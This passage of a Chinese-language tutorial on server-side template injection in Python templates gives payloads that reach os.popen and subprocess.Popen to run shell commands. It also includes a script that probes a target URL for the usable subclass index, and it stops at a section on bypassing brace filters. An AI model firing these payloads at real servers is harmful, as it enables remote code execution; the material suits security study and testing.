   ```py
  {{().__class__.__base__[0].__subclasses__()[191].__init__.__globals__['linecache']['os'].popen("ls -l").read()}}
  {{().__class__.__base__[0].__subclasses__()[191].__init__.__globals__.linecache.os.popen("ls -l").read()}}
  ```

* subprocess.Popen类执行命令

  从Python2.4开始，可以用subprocess这个模块来产生子进程，并连接到子进程的标准输入/输出/错误中去，还可以得到子进程的返回值。

  subprocess意在替代其他几个老的模块或者函数，比如：os.system、os.popen等函数

  ```py
  import requests
  url = input('请输入URL：')
  for i in range(500):
      data = {"name":"{{().__class__.__base__[0].__subclasses__()["+str(i)+"]}}"}
      try:
          response=requests.post(url,data=data)
          # print(response.text)
          if response.status_code == 200:
              if 'subprocess.Popen' in response.text:
                  print(i)
      except:
          pass
  ```

  ```py
  {{[].__class__.__base__.__subclasses__()[200]("ls /",shell=True,stdout=-1).communicate()[0].strip()}}
  ```

  ![image-20240407143811600](SSTI%E6%BC%8F%E6%B4%9E.assets/image-20240407143811600.png)

## 绕过过滤双大括号
